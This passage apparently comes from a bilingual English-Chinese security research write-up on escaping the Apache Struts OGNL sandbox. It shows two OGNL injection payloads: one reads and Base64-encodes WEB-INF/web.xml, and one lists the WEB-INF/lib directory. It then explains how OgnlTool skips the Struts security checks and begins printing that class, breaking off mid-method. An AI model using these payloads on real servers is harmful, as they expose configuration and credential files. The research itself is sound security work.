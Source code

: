 ```kotlin
(#bw=#request.get('.freemarker.Request').objectWrapper).toString().substring(0,0)+

(#f=#bw.newInstance(@java.io.File@class,{#bw.wrap("C:\\REDACTED\\WEB-INF\\web.xml")}))+ 

(#p=#bw.wrapAsAPI(#f).get("toPath").exec({}))+

(#ba=#bw.getStaticModels().get("java.nio.file.Files").get("readAllBytes").exec({#bw.wrap(#p)}))+

"----"+

(#b64=#bw.getStaticModels().get("java.util.Base64").get("getEncoder").exec({}).getAPI().get("encodeToString").exec({#bw.wrap(#ba)}))
```

Or listing the contents of a directory:  
或者列出目录的内容：

```kotlin
(#bw=#request.get('.freemarker.Request').objectWrapper).toString().substring(0,0)+

(#dir=#bw.newInstance(@java.io.File@class,{#bw.wrap("C:\\REDACTED\\WEB-INF\\lib")}))+ 

(#l=#bw.wrapAsAPI(#dir).get("listFiles").exec({}).getWrappedObject())+"---"+

(#l.{#this})
```

#### OgnlTool/OgnlUtil Ognltool / 所有[](#ognltool-ognlutil)

The `org.apache.struts2.views.jsp.ui.OgnlTool` class was calling `Ognl.getValue()` with no `OgnlContext` and even though the Ognl library will take care of creating a default one, it will not include all the additional security checks added by the Struts framework and is easily bypassable:  
`org.apache.struts2.views.jsp.ui.OgnlTool` 类调用了 `Ognl.getValue()` 而没有 `OgnlContext` ，即使 Ognl 库会负责创建一个默认的，它也不会包括 Struts 框架添加的所有额外的安全检查，并且很容易被绕过：

```java
package org.apache.struts2.views.jsp.ui;

import ognl.Ognl;

import ognl.OgnlException;

import com.opensymphony.xwork2.inject.Inject;

public class OgnlTool {

    private OgnlUtil ognlUtil;

    public OgnlTool() { }



    @Inject

    public void setOgnlUtil(OgnlUtil ognlUtil) {

        this.ognlUtil = ognlUtil;

    }



    public Object findValue(String expr, Object context) {

        try {
```